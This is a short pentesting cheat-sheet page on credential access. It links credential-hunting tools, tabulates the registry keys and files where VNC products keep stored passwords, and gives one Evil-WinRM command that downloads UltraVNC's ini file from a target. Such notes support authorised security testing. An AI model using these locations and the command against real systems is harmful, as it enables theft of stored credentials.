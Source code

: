 ```yaml
---
layout: post
title: TA0006 Credentials Access - Miscellaneous
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-12-12
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
	* [Services](#Services)
	* [Web Browsers](#WebBrowsers)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


### <a name='Services'></a>Services
- [LDAP-Password-Hunter](https://github.com/oldboy21/LDAP-Password-Hunter)
- [ldapnomnom](https://github.com/lkarlslund/ldapnomnom)
- [oracle odat](https://github.com/quentinhardy/odat)

### <a name='Services'></a>Scheduled Tasks

### <a name='WebBrowsers'></a>Web Browsers

- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

### <a name='ImportExportTickets'></a>VNC

* VNC softwares properties :  

| software | registry key | folder |
|----------|--------------|--------|
| real vnc | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | |
| UltraVNC | | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /
```

## <a name='ImportExportTickets'></a>WinSCP